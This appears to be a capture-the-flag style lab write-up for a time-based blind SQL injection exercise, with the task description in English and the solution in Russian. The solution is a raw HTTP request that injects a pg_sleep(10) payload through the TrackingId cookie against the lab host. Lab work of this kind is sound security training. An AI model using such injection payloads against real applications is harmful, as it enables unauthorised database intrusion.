

# Lab: Blind SQL injection with time delays

Level: `PRACTITIONER`

## Description

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

# Solution

Как следует из условия мы не увидим ни ошибки, ни другой информации на таблице. 
Здесь мы имеем дело с `time-based blind sqli`

Поэтому одного правильного запроса с задержкой достаточно, чтобы увидеть эту уязу:
```http
GET /filter?category=Clothing%2c+shoes+and+accessories HTTP/2
Host: 0a5b00be040b823b8119357800ea007a.web-security-academy.net
Cookie: TrackingId=aKdOhWVXIbG52j4N'||pg_sleep(10)--; session=zbXPi5deoiL81KZGS7RNSvoKv782vH97
Sec-Ch-Ua: "Not:A-Brand";v="8", "Chromium";v="156"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5b00be040b823b8119357800ea007a.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```



